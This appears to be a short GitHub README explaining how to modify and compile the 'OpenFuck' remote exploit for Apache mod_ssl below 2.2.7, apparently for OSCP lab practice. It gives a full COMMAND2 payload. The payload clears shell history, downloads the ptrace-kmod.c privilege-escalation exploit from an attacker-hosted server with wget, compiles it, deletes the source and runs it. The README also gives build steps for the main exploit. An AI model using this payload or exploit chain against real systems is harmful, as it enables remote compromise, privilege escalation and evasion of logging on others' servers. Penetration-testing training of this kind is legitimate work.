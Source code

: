 # openfuck_oscp

##  mod_ssl < 2.2.7
## modified the code on line 671



## download ptrace-kmod.c from https://packetstormsecurity.com/files/download/30973/ptrace-kmod.c 



## host  ptrace-kmod.c in apache server and replace the url with apache  



## added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error


## enter url of the file in the command2



## change the url only to execute the code
```
#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"
```
## isntall libssl-dev

## finally its compile time -> gcc OpenFuck.c -o OpenFuck -lcrypto 

# for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


